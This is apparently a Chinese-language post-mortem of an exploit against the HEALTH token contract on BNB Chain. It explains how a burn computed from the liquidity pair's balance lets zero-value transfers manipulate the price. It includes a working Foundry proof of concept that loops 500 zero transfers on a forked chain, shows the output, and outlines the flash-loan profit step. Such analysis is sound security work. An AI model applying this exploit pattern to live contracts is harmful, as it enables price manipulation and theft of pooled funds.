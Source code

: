 # HealthToken Attack Analysis


HEALTH Token 攻击案例分析

<!--more-->

## 漏洞分析

攻击 tx: https://bscscan.com/tx/0xae8ca9dc8258ae32899fe641985739c3fa53ab1f603973ac74b424e165c66ccf

被攻击合约: [0x32B166e082993Af6598a89397E82e123ca44e74E](https://bscscan.com/address/0x32B166e082993Af6598a89397E82e123ca44e74E) 

合约中的`_transfer`函数如下:

```solidity
    function _transfer(address from, address to, uint256 value) private {
        require(value <= _balances[from]);
        require(to != address(0));
        
        uint256 contractTokenBalance = balanceOf(address(this));

        bool overMinTokenBalance = contractTokenBalance >= numTokensSellToAddToLiquidity;
        if (
            overMinTokenBalance &&
            !inSwapAndLiquify &&
            to == uniswapV2Pair &&
            swapAndLiquifyEnabled
        ) {
            contractTokenBalance = numTokensSellToAddToLiquidity;
            //add liquidity
            swapAndLiquify(contractTokenBalance);
        }
        if (block.timestamp >= pairStartTime.add(jgTime) && pairStartTime != 0) {
            if (from != uniswapV2Pair) {
                uint256 burnValue = _balances[uniswapV2Pair].mul(burnFee).div(1000);
                _balances[uniswapV2Pair] = _balances[uniswapV2Pair].sub(burnValue);
                _balances[_burnAddress] = _balances[_burnAddress].add(burnValue);
                if (block.timestamp >= pairStartTime.add(jgTime)) {
                    pairStartTime += jgTime;
                }
                emit Transfer(uniswapV2Pair,_burnAddress, burnValue);
                IPancakePair(uniswapV2Pair).sync();
            }
        }
        uint256 devValue = value.mul(devFee).div(1000);
        uint256 bValue = value.mul(bFee).div(1000);
        uint256 newValue = value.sub(devValue).sub(bValue);
        _balances[from] = _balances[from].sub(value);
        _balances[to] = _balances[to].add(newValue);
        _balances[address(this)] = _balances[address(this)].add(devValue);
        _balances[_burnAddress] = _balances[_burnAddress].add(bValue);
        
        emit Transfer(from,to, newValue);
        emit Transfer(from,address(this), devValue);
        emit Transfer(from,_burnAddress, bValue);
    }
```

其中有一段逻辑是: 每进行一笔转账,就会销毁掉一部分token, 也就是将uniswapV2Pair的余额减去一部分,将_burnAddress的余额增加一部分.

```solidity
            if (from != uniswapV2Pair) {
                uint256 burnValue = _balances[uniswapV2Pair].mul(burnFee).div(1000);
                _balances[uniswapV2Pair] = _balances[uniswapV2Pair].sub(burnValue);
                _balances[_burnAddress] = _balances[_burnAddress].add(burnValue);
                if (block.timestamp >= pairStartTime.add(jgTime)) {
                    pairStartTime += jgTime;
                }
                emit Transfer(uniswapV2Pair,_burnAddress, burnValue);
                IPancakePair(uniswapV2Pair).sync();
            }
```

但是销毁的量并没有依据transfer时的value进行计算, 而是根据`_balances[uniswapV2Pair].mul(burnFee).div(1000)`进行计算的, 假如`burnFee`是`1`, 那么任意数量的转账都会销毁uniswapV2Pair余额的千分之一, 哪怕转账数量是0.

这就导致了一个严重的bug: 重复进行`value`为0的转账, 用户手中的币并不会减少, 但`uniswapV2Pair`的余额却在不断减少, 这就导致了 pair 中 token0 (WBNB) 与 token1(HEALTH token)的比率不断变化, 也就是相比于WBNB, HEALTH token的价格越来越高. 这就形成了价格操纵.



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IERC20 {
    function decimals() external view returns (uint8);

    function symbol() external view returns (string memory);

    function balanceOf(address owner) external view returns (uint256);

    function transfer(address to, uint256 value) external returns (bool);
}

interface IPancakePair {
    function token0() external view returns (address);

    function token1() external view returns (address);

    function getReserves()
        external
        view
        returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
}

IERC20 constant HealthToken = IERC20(
    0x32B166e082993Af6598a89397E82e123ca44e74E
);

IERC20 constant WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

IPancakePair constant pancakePair = IPancakePair(
    0xF375709DbdE84D800642168c2e8bA751368e8D32
);

contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 22337400); //bsc
    }

    function testPoc() public {
        console2.log("token0 is:", IERC20(pancakePair.token0()).symbol());
        console2.log("token1 is:", IERC20(pancakePair.token1()).symbol());

        (uint112 token0, uint112 token1, ) = pancakePair.getReserves();
        emit log_named_decimal_uint(
            "[before]token0",
            token0,
            IERC20(pancakePair.token0()).decimals()
        );
        emit log_named_decimal_uint(
            "[before]token1",
            token1,
            IERC20(pancakePair.token1()).decimals()
        );

        // 连续0转账500次
        for (uint i = 0; i < 500; i++) {
            HealthToken.transfer(address(this), 0);
        }

        (token0, token1, ) = pancakePair.getReserves();
        emit log_named_decimal_uint(
            "[after]token0 ",
            token0,
            IERC20(pancakePair.token0()).decimals()
        );
        emit log_named_decimal_uint(
            "[after]token1 ",
            token1,
            IERC20(pancakePair.token1()).decimals()
        );
    }
}

```

输出:

```sh
[PASS] testPoc() (gas: 11524943)
Logs:
  token0 is: HEALTH
  token1 is: WBNB
  [before]token0: 62563539.073327292627431307
  [before]token1: 38.502835300011026965
  [after]token0 : 37937212.810065723981756912
  [after]token1 : 38.502835300011026965
```

以循环500次为例, pair中的HEALTH token数量减少了接近一半, 也就是价格涨了接近一半.

在实际攻击中, 攻击者先利用闪电贷贷款了WBNB, 然后用WBNB swap了一些 HEALTH, 然后操作价格, 再高价将手中的HEALTH通过swap卖出而获利.


